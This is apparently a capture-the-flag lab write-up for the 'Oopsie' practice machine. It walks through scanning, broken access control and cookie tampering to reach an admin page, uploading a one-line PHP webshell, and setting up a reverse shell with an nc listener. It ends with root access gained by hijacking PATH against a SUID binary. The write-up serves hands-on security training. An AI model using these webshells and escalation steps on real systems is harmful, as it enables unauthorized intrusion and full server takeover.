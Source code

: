 # OOPSIE

STARTING POINT - TIER 2

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.24.202
```

![nmap](pics/nmap.png)

## Exploitation

**Check page-source**

![ps](pics/ps.png)

- Suspicious directory `/cdn-cgi/login`

**Access `/cdn-cgi/login`**

![web1](pics/web1.png)

![web2](pics/web2.png)

- Login as Guest

![web3](pics/web3.png)

- Look at the url `http://10.129.24.202/cdn-cgi/login/admin.php?content=accounts&id=2`. What if we change the `id` to `id=1`?

![web4](pics/web4.png)

- BOOM!!!

![web5](pics/web5.png)

- I realized that website cookies are saved using the user's Access ID. So let's change it to admin's Access ID and refresh the website to see the result.

![web6](pics/web6.png)

![web7](pics/web7.png)

- Now you can access to uploads page.

**Create a simple webshell `webshell.php`**

```bash
<?php system($_GET["cmd"]); ?>
```

**Directories scanning**

```bash
gobuster dir -u http://10.129.24.202/ -w /usr/share/dirb/wordlists/small.txt -x php
```

![go](pics/go.png)

**Access to endpoint `/uploads`**

`http://10.129.24.202/uploads/webshell.php`

![shell1](pics/shell1.png)

- Successfully access webshell then RCE the server.

![shell2](pics/shell2.png)

- `cmd=ls /home/robert`

**Read file**

`cmd=ls /home/robert/user.txt`

**Let's upload a reverse shell into the server**

- You can find a reverse shell in `/usr/share/webshells/php/php-reverse-shell.php`.

![rshell](pics/rshell.png)

- Change these 2 lines.

**Upload webshell and connect**

```bash
nc -lnvp 4444
```

`http://10.129.24.202/uploads/php-reverse-shell.php`

![rshell2](pics/rshell2.png)

**Upgrade shell to `/bin/bash`**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![bash](pics/bash.png)

**Read file is shared with robert user**

![read](pics/read.png)

**Switch to robert user**

```bash
su robert
```

![robert1](pics/robert1.png)

![robert2](pics/robert2.png)

- Found interested group

**Access `/usr/bin/bugtracker`**

![bug1](pics/bug1.png)

![bug2](pics/bug2.png)

**Privileges Escalation**

```bash
robert@oopsie:/tmp$ echo "/bin/sh" > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------

# whoami
root
```

![priv](pics/priv.png)
